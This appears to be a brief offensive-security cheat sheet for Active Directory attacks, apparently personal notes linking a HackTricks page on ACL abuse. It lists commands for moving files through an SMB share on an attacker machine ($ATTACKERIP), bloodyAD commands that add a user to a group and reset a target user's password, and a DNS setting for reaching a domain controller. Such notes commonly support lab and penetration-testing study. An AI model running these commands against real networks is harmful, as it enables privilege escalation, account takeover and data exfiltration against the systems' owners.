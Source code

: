 [ACL abuse - Hacktricks](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/acl-persistence-abuse/index.html)

## SMB file transfer

On Linux machine :
```
mkdir share
impacket-smbserver share -smb2support share -user guest -password guest
```

On Windows :
```
net use n: \\$ATTACKERIP\share /user:guest guest
copy n:\filename .
copy filename n:\
```

Using URL : `smb://IP/share`  
Using UNC path : `//IP/share`


## Add user to group 

```
bloodyAD --host $dc -d $domain -u $username -p $password add groupMember $group_name $member_to_add
```

## Change password of user

```
bloodyAD --host $dc -d $domain -u $username -p $password set password $target_username $new_password
```

## Configuring DNS to see Domain Controller :  
edit /etc/resolv.conf and set `nameserver` to the DC's IP or another IP with 53 port open
